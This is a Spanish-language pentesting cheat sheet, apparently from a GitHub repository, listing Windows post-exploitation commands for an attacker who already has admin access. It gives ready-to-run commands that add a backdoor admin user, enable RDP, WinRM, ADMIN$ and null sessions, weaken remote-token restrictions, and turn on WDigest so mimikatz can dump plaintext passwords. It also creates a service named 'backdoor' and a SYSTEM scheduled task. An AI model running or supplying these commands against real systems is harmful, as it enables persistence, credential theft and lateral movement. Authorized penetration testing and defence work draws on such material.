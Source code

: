 - Saber si estamos ante cmd ó powershell: 
	```powershell
	(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell
	```
- Comprobar arquitectura de Windows
	- Sin privilegios: 
		```powershell
		$env:PROCESSOR_ARCHITECTURE	
		```
	- Con privilegios
		```powershell
		(Get-CimInstance Win32_OperatingSystem).OSArchitecture
		```
- Convertir en archivo de texto, supongamos `infoMimikatz`, con formato grepeable correcto (a veces la extracción de mimikatz da problemas)
	```bash
	dos2unix infoMimikatz
	# si no funciona
	dos2unix -f infoMimikatz
	```
- Convertir a teclado en español
	```powershell
	Set-WinUserLanguageList -LanguageList es-ES -Force
	```

## Con acceso de administrador a un sistema Windows
### Crear un usuario persistente con permisos de administrador
- **Crear un usuario:**
    ```powershell
    net user pentester StrongP@ssword123 /add
    ```
- **Añadir el usuario al grupo de administradores:**
    ```powershell
    net localgroup Administrators pentester /add
    ```
### Habilitar RDP (Escritorio Remoto)
- Habilitar RDP con `nxc`
	```bash
	nxc smb $IP -u administrator -p pass123 -M rdp -o ACTION=enable==
	```
- **Habilitar conexiones RDP:**
    ```powershell
    # Desde CMD
    reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
    # Desde powershell
    Set-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Control\Terminal Server' -Name "fDenyTSConnections" -Value 0

    ```
- **Configurar el Firewall para permitir tráfico RDP:**
    ```powershell
    netsh advfirewall firewall set rule group="remote desktop" new enable=yes
    ```
### Activar el Modo Admin Restricto (Restricted Admin Mode para RDP)
```powershell
reg add HKLM\System\CurrentControlSet\Control\Lsa /v DisableRestrictedAdmin /t REG_DWORD /d 0 /f
```
### Evitar restricciones con `LocalAccountTokenFilterPolicy`
Permite que las cuentas locales se autentiquen remotamente y conserven sus privilegios administrativos sin restricciones adicionales. Útil para herramientas como `psexec` o `impacket-psexec`, ya que elimina limitaciones predeterminadas que podrían bloquear RCE. 
```powershell
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f
```
### Habilitar y configurar `psexec` y herramientas basadas en SMB
Para operaciones administrativas avanzadas, como el uso de herramientas como `psexec`, **ADMIN$ debe estar habilitado**
- **Habilitar el servicio ADMIN$ (si está deshabilitado):**
    ```powershell
    sc config lanmanserver start= auto
    sc start lanmanserver
    ```
- **Abrir ADMIN$ para autenticación remota:**
    ```powershell
    net share ADMIN$=C:\Windows /grant:Administrators,FULL
    ```
### Habilitar PowerShell Remoting
Habilita WinRM automáticamente
```powershell
Enable-PSRemoting -Force
```
### Habilitar WinRM (para autenticación remota con PowerShell y herramientas como Evil-WinRM)
```powershell
winrm quickconfig -force
```
### Configurar autenticación sin contraseña (null sessions)
- **Deshabilitar restricciones de null sessions:**
    ```powershell
    reg add "HKLM\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters" /v NullSessionShares /t REG_MULTI_SZ /d "C$\IPC$" /f
    ```
- **Opcional: Permitir null sessions a nivel de usuario:**
    ```powershell
    reg add "HKLM\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters" /v RestrictNullSessAccess /t REG_DWORD /d 0 /f
    ```

### Habilitar autenticación WDigest (credenciales en texto claro en memoria)
Configura el sistema para almacenar credenciales en texto plano en memoria (LSASS). Si tras habilitar WDigest un usuario se conecta autentica en el sistema, tras volcar la sam, podremos extraer credenciales en texto claro con `sekurlsa::minidump lsass.dmp sekurlsa::logonpasswords`
```powershell
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f
```
### Configurar un servicio persistente con acceso remoto
```powershell
sc create backdoor binpath= "cmd.exe /k start cmd.exe" start= auto
```
### Habilitar credenciales almacenadas para acceso remoto
- Permite el uso de credenciales almacenadas para establecer conexiones remotas
	```powershell
	reg add HKLM\SYSTEM\CurrentControlSet\Control\Lsa /v DisableDomainCreds /t REG_DWORD /d 0 /f
	```
- Después de esta configuración se pueden utilizar comandos como 
	```powershell
	cmdkey /add:target_machine /user:admin_user /pass:password123
	```
	Y conectarnos al sistema de manera remota sin tener que proporcionar credenciales nuevamente (facilita escenarios en los que el Double Hop puede limitar el acceso)
### Configurar una tarea programada maliciosa
- **Crear una tarea:**
    ```powershell
    schtasks /create /tn "PentestTask" /tr "cmd.exe /c whoami > C:\users\public\whoami.txt" /sc onlogon /ru SYSTEM
    ```

